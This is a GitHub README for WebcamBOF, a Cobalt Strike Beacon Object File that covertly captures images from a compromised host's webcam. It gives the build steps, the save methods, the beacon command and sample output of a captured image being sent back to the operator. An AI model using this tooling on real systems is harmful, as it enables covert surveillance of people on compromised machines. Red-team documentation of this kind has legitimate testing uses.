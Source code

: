 # WebcamBOF 📸

Webcam capture capability for Cobalt Strike, implemented as a Beacon Object File (BOF)

## Self Compilation
1. git clone the repo
2. run `make`

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)
2. download file over beacon as a screenshot (Cobalt Strike only)

## Usage
1. import the webcamBOF.cna script into Cobalt Strike
2. use the command webcam_bof {filename} {save method 0/1/2}
  
```
beacon> webcam_bof sad.jpeg 2
[*] Running Webcam BOF by (@codex_tf2)
[+] host called home, sent: 35817 bytes
[+] received output:

[*] Initializing webcam
[+] received output:

[*] Device 0: HP 320 FHD Webcam
[+] received output:

[*] Capturing image data
[+] received output:
[*] Downloading JPEG over beacon as a screenshot
[*] received screenshot of Webcam from Admin (328kb)
```
Note: the following error
```
[*] Capturing image data
[+] received output:
[ERROR] ReadSample failed with HRESULT: 0xc00d3704
```
usually indicates that the webcam is currently in use.

## Notes


## Why did I make this?
Cobalt Strike did not originally have a built in webcam capability, nor did open source alternatives exist to my knowledge. And it was a fun (not) idea.

## Credits
- Webcam code from https://github.com/OV2/WebcamImage
- Save BMP to file from https://stackoverflow.com/a/60667564
- @BinaryFaultline for screenshot callback function (Reused from ScreenshotBOF)
- in memory download from https://github.com/anthemtotheego/CredBandit
- bitmap to jpeg from https://github.com/WKL-Sec/HiddenDesktop

## Disclaimer
usual disclaimer here, I am not responsible for any crimes against humanity you may commit or nuclear war you may cause using this piece of poorly written code.
